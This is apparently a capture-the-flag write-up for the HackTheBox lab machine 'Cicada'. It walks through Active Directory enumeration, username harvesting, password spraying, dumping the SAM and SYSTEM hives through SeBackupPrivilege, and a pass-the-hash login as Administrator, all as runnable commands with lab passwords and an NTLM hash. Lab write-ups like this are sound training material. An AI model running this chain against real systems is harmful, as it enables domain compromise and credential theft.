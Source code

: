 # Cicada - Easy

```sh
sudo vim /etc/hosts
# map cicada.htb

nmap -T4 -p- -A -Pn -v cicada.htb
```

* Open ports & services:

    * 53/tcp - domain - Simple DNS Plus
    * 88/tcp - kerberos-sec - Microsoft Windows Kerberos
    * 135/tcp - msrpc - Microsoft Windows RPC
    * 139/tcp - netbios-ssn - Microsoft Windows netbios-ssn
    * 389/tcp - ldap - Microsoft Windows Active Directory LDAP
    * 445/tcp - microsoft-ds
    * 464/tcp - kpasswd5
    * 593/tcp - ncacn_http - Microsoft Windows RPC over HTTP 1.0
    * 636/tcp - ssl/ldap - Microsoft Windows Active Directory LDAP
    * 3268/tcp - ldap - Microsoft Windows Active Directory LDAP
    * 3269/tcp - ssl/ldap - Microsoft Windows Active Directory LDAP
    * 5985/tcp - http - Microsoft HTTPAPI httpd 2.0
    * 54571/tcp - msrpc - Microsoft Windows RPC

* Checking DNS:

    ```sh
    dig ns cicada.htb @10.10.11.35
    # we get a domain cicada-dc.cicada.htb

    dig any cicada.htb @10.10.11.35
    # we get another domain hostmaster.cicada.htb
    # we can revisit these later
    ```

* Checking for RPC info:

    ```sh
    rpcclient -U "" cicada.htb
    # empty password

    srvinfo

    enumdomains
    # NT_STATUS_ACCESS_DENIED
    # other queries also get denied
    ```

* Enumerate LDAP:

    ```sh
    ldapsearch -H ldap://cicada.htb -x

    # use namingcontexts flag
    ldapsearch -H ldap://cicada.htb -x -s base namingcontexts

    # use DC values found
    ldapsearch -H ldap://cicada.htb -x -b "DC=CICADA,DC=HTB"

    ldapsearch -H ldap://cicada.htb -x -b "DC=cicada,DC=HTB" "objectclass=user" sAMAccountName
    # no luck
    ```

* Enumerate SMB:

    ```sh
    smbclient -L \\\\cicada.htb
    # we have a couple of non-standard shares

    smbclient \\\\cicada.htb\\DEV
    # no password works, but cannot list contents

    smbclient \\\\cicada.htb\\HR
    # we can access the contents

    dir
    # we have a text file

    get "Notice from HR.txt"

    exit

    less "Notice from HR.txt"
    ```

* The text file gives us the default password used in Cicada Corp - "Cicada$M6Corpb*@Lp#nZp!8" - but we do not have an username yet; we do have an email ID 'support@cicada.htb'

* To enumerate usernames, we can check using tools such as ```rpcclient``` and ```lookupsid.py``` (part of SMB enumeration):

    ```sh
    rpcclient -U "" -N cicada.htb
    # this does not work

    rpcclient -U "" cicada.htb
    # this works with empty password, indicating anonymous login

    locate lookupsid.py
    # find script location

    python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@cicada.htb
    # as we had anonymous login supported, we can use the 'anonymous' username
    # and check if SIDs can be bruteforced

    # this gives us a bunch of usernames
    python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@cicada.htb | grep SidTypeUser
    
    # this does not work with '-no-pass', we need to try with and without mentioning username

    # samrdump.py
    python3 /usr/share/doc/python3-impacket/examples/samrdump.py cicada.htb
    ```

* Using ```lookupsid``` with the 'anonymous' username, we get a few usernames (SidTypeUser) - we can copy them to a file and use for further AD enumeration:

    ```sh
    vim usernames.txtid
    # paste all usernames found from lookupsid enum

    vim passwords.txt
    # paste the password found from the HR share

    crackmapexec smb -u usernames.txt -p passwords.txt --shares cicada.htb --continue-on-success
    # bruteforce and check for any valid creds
    ```

* ```crackmapexec``` shows that the password found earlier is valid for the user 'michael.wrightson' - we can now try to get access using these creds:

    ```sh
    evil-winrm -i cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
    # this does not work

    python3 /usr/share/doc/python3-impacket/examples/psexec.py cicada.htb/michael.wrightson:'Cicada$M6Corpb*@Lp#nZp!8'@cicada.htb
    # this also does not give us a shell

    # try to check the SMB shares from earlier
    smbclient -U michael.wrightson \\\\cicada.htb\\DEV
    # does not work for other shares as well

    # at this point, we can try using other tools from impacket for AD enumeration

    python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py cicada.htb/michael.wrightson -all -dc-ip cicada.htb

    python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py cicada.htb/michael.wrightson:'Cicada$M6Corpb*@Lp#nZp!8' -dc-ip cicada.htb -request

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.11.35 cicada.htb/ -usersfile usernames.txt -request

    # we can use the enum4linux-ng tool, we used the older version earlier

    enum4linux-ng cicada.htb -AC
    # -A for all basic enumeration
    # -C for getting services via RPC

    # we can try with known creds as well
    enum4linux-ng cicada.htb -A -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
    # this gives us another password
    ```

* Using the ```enum4linux-ng``` tool with known creds, from the users found via RPC, for username 'david.orelious', the description mentions the cleartext password 'aRt$Lp#7t*VQ!3' - add this to known passwords:

    ```sh
    vim passwords.txt
    # we have one more password now

    # try bruteforce again
    crackmapexec smb -u usernames.txt -p passwords.txt --shares cicada.htb --continue-on-success
    # the second password is valid for 'david.orelious'

    # we can try accessing the DEV share now using this password
    smbclient -U david.orelious \\\\cicada.htb\\DEV

    dir
    # we have a script here

    get Backup_script.ps1

    exit

    cat Backup_script.ps1
    ```

* The Powershell script contains a cleartext password 'Q!3@Lp#M6b*7t*Vt' for user 'emily.oscars' - one more password found:

    ```sh
    vim passwords.txt
    # add this password as well

    crackmapexec smb -u usernames.txt -p passwords.txt --shares cicada.htb --continue-on-success
    # the creds for emily are valid too

    evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
    # we get remote access as emily

    pwd
    # we can get the user flag from emily.oscar Desktop
    ```

* We can start with Windows enumeration now:

    ```cmd
    whoami
    # cicada\emily.oscars

    whoami /groups
    # check which groups we are a part of

    whoami /priv
    # check privileges
    # we have the following tokens enabled - SeBackupPrivilege, SeRestorePrivilege, SeShutdownPrivilege, SeChangeNotifyPrivilege, SeIncreaseWorkingSetPrivilege
    ```

* As SeBackupPrivilege & SeRestorePrivilege are enabled (this is because we are part of ```Backup Operators``` group), we can abuse them by creating a shadow copy and fetching some hives:

    ```cmd
    # in evil-winrm session
    reg save hklm\sam C:\Windows\Temp\sam

    reg save hklm\system C:\Windows\Temp\system

    download C:\Windows\Temp\sam /home/sv/cicada/sam

    download C:\Windows\Temp\system /home/sv/cicada/system
    ```

* We can try extracting hashes now in our attacker machine using ```secretsdump.py```:

    ```sh
    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -system system LOCAL
    # this gives us hash for Administrator, we can use it for PtH

    evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
    # this works
    # we can get root flag from Administrator Desktop
    ```
